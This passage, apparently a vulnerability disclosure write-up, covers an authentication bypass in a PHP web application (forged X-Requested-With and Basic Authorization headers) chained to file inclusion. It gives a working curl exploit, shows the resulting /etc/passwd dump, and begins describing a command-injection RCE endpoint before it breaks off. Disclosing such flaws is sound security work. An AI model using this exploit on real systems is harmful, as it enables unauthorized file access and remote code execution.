 If header `X-Requested-With` is set to `xmlhttprequest` and the value of `$_SERVER["REMOTE_USER"]` is set to any value. authentication does not occur . and down the line if `$_SESSION["username"]` is not set the script will redirect using `header()` . but the `header` function only sets response headers and does not exit . therefore the script will continue to execute, 

**exploitation :** send a request with header `X-Requested-With` set to `xmlhttprequest`,header `Authorization` set to `Basic YWRtaW46YWRtaW5h` (Basic and base64 of username and password contatinated together with a colon `:` in between. This is to in order to set variable `$_SERVER["REMOTE_USER"]` using HTTP BASIC AUTHORIZATION ). And finally get param `class` set to the path of the file to be included 

```console
$ curl 'http://192.168.0.19/index.php?class=/etc/passwd' -H 'X-Requested-With: xmlhttprequest' -H 'Authorization: Basic YWRtaW46YWRtaW5h' 
 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
wms:x:1000:1000:,,,:/var/www:/bin/bash
callweaver:x:1001:1001:,,,:/var/www:/bin/false
admin:x:1002:1003:Administrator,,,:/home/admin:/bin/bash
openldap:x:1003:1004::/home/openldap:/bin/sh
ejabberd:x:1004:1005::/dev/shm/wmsdb.d/ejabberd:/bin/sh
fetchmail:x:103:65534::/var/lib/fetchmail:/bin/false
snmp:x:105:65534::/var/lib/snmp:/bin/false
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:104:104::/home/ntp:/bin/false
nagios:x:106:106::/var/log/nagios:/bin/false
shellinabox:x:107:107:Shell In A Box,,,:/var/lib/shellinabox:/bin/false
freerad:x:108:108::/etc/freeradius:/bin/false
statd:x:109:65534::/var/lib/nfs:/bin/false
Cannot redirect to class file%
```
### RCE (using auth bypass)
the endpoint `features/make_keys_pdf.php` uses a user supplied value in a command without any sanitization
```php
require_once "../init.php";
if (preg_match("/(cticonnect)|(collaboration)/", $_SERVER["REQUEST_URI"])) {
    //REDACTED
} else {
    include_once file_exists("auth.php") ? "auth.php" : "../auth.php";
}
require_once "functions.php";
if (isset($_GET["set"])) {
/*
...
```